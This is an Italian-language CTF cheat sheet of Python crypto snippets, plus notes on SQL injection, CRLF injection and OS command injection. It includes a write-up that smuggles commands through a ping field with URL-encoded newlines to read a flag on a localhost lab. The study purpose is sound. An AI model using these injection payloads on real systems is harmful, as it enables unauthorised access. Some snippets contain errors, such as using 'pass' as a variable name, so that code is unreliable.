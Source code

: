 # Funzioni a caso

### Shifting di una stringa "abc" -> "cde"

```python
input = 'abc'
key = 2
output = ''

for c in input:
    output += chr(ord(c) + key)
print(output)
```

-------------------------

### Generazione stringa random

```python
import random
import string


vocabulary = list(string.ascii_letters) + list(string.digits)
pass = ""
size = 10

for i in range(size):
    random.shuffle(vocabulary)
    pass += vocabulary[0]
print(f"Password: {password}")
```

```python
import random
import string

letters = string.ascii_lowercase

def get_random_string(length):
    result_str = ''.join(random.choice(letters) for i in range(length))
    return result_str

print(get_random_string(8))
```

-------------------------

### Prendere tutti caratteri maiuscoli da file

```python
file1 = open('input.txt', 'r')
lines = file1.readlines()

out = ""
for linea in lines:
    linea = linea.strip()
    for char in linea:
        if ord(char)>64 and ord(char)<=64+32:
            out += char

print(out)
```

-------------------------

### Decodifica da base64 a stringa

```python
import base64
 
b64 = "fYZ7ipGIjFtsXpNLbHdPbXdaam1PS1c5lQ=="
bytes = base64.b64decode(b64)
stringa = bytes.decode("UTF-8")
```

-------------------------

### Bruteforce Cesare da Base64

```python
import base64
 
b64 = "INSERIRE QUI IL BASE64=="
bytes = base64.b64decode(b64)

for i in range (0, 256):
    for byte in bytes:
        print(chr((byte+i)%256), end="")
    print(" ")
```

--------------------

### Decodifica cifrario di Vigenere
<https://www.dcode.fr/vigenere-cipher>

--------------------

### Decodifica cifrario a sostituzione (Substitution)
<https://www.guballa.de/substitution-solver>

--------------------

### Sito per md5, sha1, sha256 ecc...
<https://crackstation.net/>

<https://www.tunnelsup.com/hash-analyzer/>

--------------------

### SQL Injection

```
' OR 1='1
' or 1=1--
```

------------------

### CRLF Attack

```
if an attacker can execute the CRLF attack, he can fake the log content
/index.php?page=home& %0d%0a 127.0.0.1 - 08:15 - /index.php?page=home&restricredredactio=edi
```

------------------

### OS Command Injection Attack

```
http://example.com/ping.php?address=8.8.8.8 %26ls
Note that 26 -> &
```

--------------

### XOR ripetuto con LEN(S1) > LEN(S2)

```python
import string

alph = list(string.ascii_uppercase)
f = open("encrypted", "r").readline()

def customXOR(text, key):
    out = ""
    for i in range(0, len(text)):
        out += (chr( ord(text[i]) ^ ord(key[i%len(key)])))
    return out
                 
for a in alph:
    for b in alph:
        key = a+b
        if "spritz" in customXOR(f, key) : print(customXOR(f, key))
```

------------------------

###  Rimpiazzo caratteri in stringhe

```python
string = "Palle"
new_string = string.replace("e", "a") 
  
print(new_string)   #STAMPA: "Palla"
```

------------------------

### String Interpolation

```python
'%s is smaller than %s' % ('one', 'two')

print("Mr. %s, the total is %.2f." % ("Jekyll", 15.53))
'Mr. Jekyll, the total is 15.33.'

>>> place = "New York"
>>> print("Welcome to %s!" % place)
Welcome to New York!

palle = {"allowed_flag":"sos", "palle1":"palle2"}
str = "flag: %(allowed_flag)s" % palle
print(str)     #stampa "flag: sos"
```

------------------------

### CRLF Injection

<b>CR</b> = Carriage Return (\r) → Codifica HEX: 0x0d, <b>Codifica URL: %0d</b>

<b>LF</b> = Line Feed (\n) → Codifica HEX: 0x0a, <b>Codifica URL: %0a</b>


La combinazione di CRLF è l'effetto del tasto ENTER.

Torna molto utile la codifica URL di CR ed LF per esempio per le Injection.

<br>
Esempio di esercizio:

```html
<html>
<head><title>Can I haz Smart Cat ???</title></head>
<body>
  <h3> Smart Cat debugging interface </h3>

  <form method="post" action="index.cgi">
    <p>Ping destination: <input type="text" name="dest"/></p>
  </form>
  <p>Ping results:</p><br/>
  <pre></pre>
</body>
</html>
```
In cui si richiedeva di trovare la flag a partire da questa pagina dove era possibile effettuare "solamente" il ping. Utilizzare spazi, &&, || e altri comandi di altri tipo risulta inutile in quanto il codice ne previene l'uso.

Se si visualizza il pacchetto POST, nel body si trova dest=indirizzo ip, dove dest sta a identificare l'argomento presente nell'inputbox. Sfruttando il comando curl, possiamo ri-effettuare il comando, scrivendo dest=ipaddr<b>%0a</b>ls. 
```sh
#ls tramite Line feed
curl -XPOST -d 'dest=0.0.0.0%0als' 'http://localhost:8090/'
```
Una volta inviato, da terminale appare l'effetto del ping e il ritorno di ls (in questo caso consiste di un file python e della cartella there). Siccome non sono accettati spazi di alcuni tipo, l'unico modo è utilizzare il comando <b>find</b> per analizzare tutte le sottocartelle, trovando così la posizione della flag.
```sh
#find tramite Line feed
curl -XPOST -d 'dest=0.0.0.0%0afind' 'http://localhost:8090/'
```

Infine, per utilizzare il cat senza spazi, utilizziamo il comando col redirect, ovvero
```sh
cat<path/to/flag.txt

#Caso particolare dell'esercizio
curl -XPOST -d 'dest=0.0.0.0%0acat<./there/is/your/flag/or/maybe/not/what/do/you/think/really/please/tell/me/seriously/though/here/is/the/flag' 'http://localhost:8090/'
```